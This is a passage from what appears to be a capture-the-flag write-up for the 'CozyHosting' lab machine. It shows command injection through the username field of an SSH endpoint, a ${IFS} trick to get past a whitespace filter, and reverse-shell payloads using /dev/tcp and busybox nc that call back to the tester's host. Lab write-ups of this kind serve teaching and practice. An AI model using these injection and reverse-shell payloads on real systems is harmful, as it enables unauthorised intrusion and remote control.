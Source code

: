 ```
$curl 'http://cozyhosting.htb/executessh' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'host=cozyhosting.htb&username=kanderson;' -v 2> >( grep Location )
< Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname kanderson: Temporary failure in name resolution/bin/bash: line 1: @cozyhosting.htb: command not found
```
This time, we got an ssh error and a bash error. It seems that ssh try to connect to `kanderson` which is the username, and try to run the bash command `@cozyhosting.htb` which is the hostname preceded by an `@`. We can suppose that the command that is executed has the following format: `ssh <username>@<hostname>`. To check that, let's try to craft the command `ssh kanderson;id;@cozyhosting.htb` in order to get the command `id` executed:
```
$curl 'http://cozyhosting.htb/executessh' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'host=cozyhosting.htb&username=kanderson;id;' -v 2> >( grep Location )
< Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname kanderson: Temporary failure in name resolution/bin/bash: line 1: @cozyhosting.htb: command not found
```
Unfortunately, the result is the same as before. Does that mean that the command has not been executed? Let's try to run a reverse shell to check that. On my host, I will run `nc -lvnp 4444` and I will send the command of a reverse shell: `sh -i >& /dev/tcp/10.10.14.109/4444 0>&1`. Before that, I should take care that the string is URL encoded, because it contains `&` that should not be confused with the ones separating the HTTP parameters:
```
$curl 'http://cozyhosting.htb/executessh' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'host=cozyhosting.htb&username=kanderson;sh -i >%26 /dev/tcp/10.10.14.109/4444 0>%261;' -v 2> >( grep Location )
< Location: http://cozyhosting.htb/admin?error=Username can't contain whitespaces!
```
Unfortunately, it seems there is a verification of the `username` parameter. It should not contain whitespace. It is not an issue because we can write shell commands without spaces by replacing them by `${IFS}`. Let's try again:
```
$curl 'http://cozyhosting.htb/executessh' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'host=cozyhosting.htb&username=kanderson;sh${IFS}-i${IFS}>%26${IFS}/dev/tcp/10.10.14.109/4444${IFS}0>%261;' -v  2> >( grep Location )
< Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname kanderson: Temporary failure in name resolution/bin/bash: line 1: ${IFS}/dev/tcp/10.10.14.109/4444${IFS}0: ambiguous redirect/bin/bash: line 1: @cozyhosting.htb: command not found
```
This time, we have an error from the bash: "/bin/bash: line 1: ${IFS}/dev/tcp/10.10.14.109/4444${IFS}0: ambiguous redirect". It seems that the redirection is not correctly understood by bash because of the `${IFS}`. Let's try another reverse shell that does not contain any redirection, like `busybox nc 10.10.14.109 4444 -e sh`:
```
$curl 'http://cozyhosting.htb/executessh' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'host=cozyhosting.htb&username=kanderson;busybox${IFS}nc${IFS}10.10.14.109${IFS}4444${IFS}-e${IFS}sh;' -v  2> >( grep Location )
```
This time, it works! I have my reverse shell:
```
$nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.109] from (UNKNOWN) [10.129.229.88] 42282
id
uid=1001(app) gid=1001(app) groups=1001(app)
hostname
cozyhosting
```
I can start to look for the flag after setting a better shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`.
## Target machine enumeration
First, let's look at the flag which is generally located in the home folder of one of the users of the machine:
```
app@cozyhosting:/app$ ls -l /home
```